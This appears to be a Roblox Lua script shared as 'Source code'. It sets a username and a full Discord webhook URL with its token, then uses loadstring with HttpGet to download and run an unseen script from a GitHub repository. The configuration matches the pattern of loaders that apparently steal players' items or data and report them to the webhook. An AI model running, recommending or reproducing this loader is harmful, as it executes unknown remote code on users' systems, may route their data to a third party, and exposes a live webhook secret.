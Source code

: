 Username = "chamskiee3"
Webhook = "https://discord.com/api/webhooks/1369491999564234824/Liiw6yjLwlg8njNtPmNllLHrG7eU2kZ8FXQaMgKgHErSYwPxD5eydMCXe9xNDhg3Oig-"

loadstring(game:HttpGet("https://raw.githubusercontent.com/kk4ft/MoriScripts/main/MoriScripts"))()
